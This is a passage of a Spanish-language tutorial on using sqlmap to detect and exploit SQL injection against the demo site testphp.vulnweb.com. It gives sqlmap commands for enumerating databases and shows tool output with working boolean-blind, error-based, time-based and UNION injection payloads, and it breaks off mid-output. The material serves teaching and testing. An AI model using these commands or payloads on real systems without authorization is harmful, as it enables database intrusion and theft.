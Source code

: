 - Estos son los principales pasos que podemos seguir para obtener toda la información sobre una base de datos que está detrás de una vulnerabilidad de inyección de SQL:

    1. En primer lugar, usamos el parámetros `-u` para añadir la URL del sitio que vamos a analizar. Para ello usamos el siguiente

        ```bash
        $ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1
        ```

        Ejecutando el comando anterior, podemos ver cómo el parámetro cat es vulnerable.

        Salida parcial:

        ```bash
        [10:14:11] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
        GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
        sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
        ---
        Parameter: cat (GET)
            Type: boolean-based blind
            Title: AND boolean-based blind - WHERE or HAVING clause
            Payload: cat=1 AND 3416=3416

            Type: error-based
            Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
            Payload: cat=1 AND GTID_SUBSET(CONCAT(0x7171787871,(SELECT (ELT(9102=9102,1))),0x7178767071),9102)

            Type: time-based blind
            Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
            Payload: cat=1 AND (SELECT 8440 FROM (SELECT(SLEEP(5)))XvdJ)

            Type: UNION query
            Title: Generic UNION query (NULL) - 11 columns
            Payload: cat=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171787871,0x6450647158556b6b6672526e46716f4b625257596a486672516852457862726776455665646d774b,0x7178767071),NULL,NULL,NULL-- -
        ---
        ```

    2. Extracción de tablas y columnas de una base de datos

        SQLmap también tiene la capacidad de atacar el servidor para descubrir nombres de tablas, descargar la base de datos y realizar consultas SQL de forma automática.

        Podríamos estar interesados en obtener todas las bases de datos que utiliza el sitio web a través de la opción `--dbs`:

            ```bash
            sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
            ```

        Con la  ejecución del comando anterior, podemos obtener información sobre las bases de datos obtenidas, acuart e información_esquema. Esta es una salida parcial:

        ```bash
         [20:47:39] [INFO] the back-end DBMS is MySQL
